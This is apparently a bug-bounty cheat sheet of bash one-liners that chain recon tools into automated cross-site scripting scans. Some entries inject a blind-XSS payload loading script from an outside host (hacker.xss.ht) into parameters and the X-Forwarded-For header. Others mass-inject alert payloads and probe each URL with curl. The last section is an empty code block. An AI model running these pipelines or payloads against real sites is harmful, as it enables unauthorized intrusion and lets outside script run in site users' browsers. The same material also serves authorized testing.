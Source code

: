## BXSS - Bling XSS in Parameters
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```bash
subfinder -d target.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters
```

## Blind XSS In X-Forwarded-For Header
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```bash
subfinder -d target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"
```

## Gxss with single target
> @KathanP19
```bash
echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

## XSS using gf with single target
> @infosecMatter
```bash
echo "http://testphp.vulnweb.com/" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf xss | anew 
```

## XSS without gf
> HacktifyS
```bash
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
`or`
```bash
gospider -S target.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

## XSS qsreplace
> @KingOfBugBounty
```bash
gospider -a -s https://site.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## XSS httpx
> @ofjaah
```bash
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo "(http|https)://[^/"].* | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>"
```
## Automating XSS using Dalfox, GF and Waybackurls
> [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```bash
```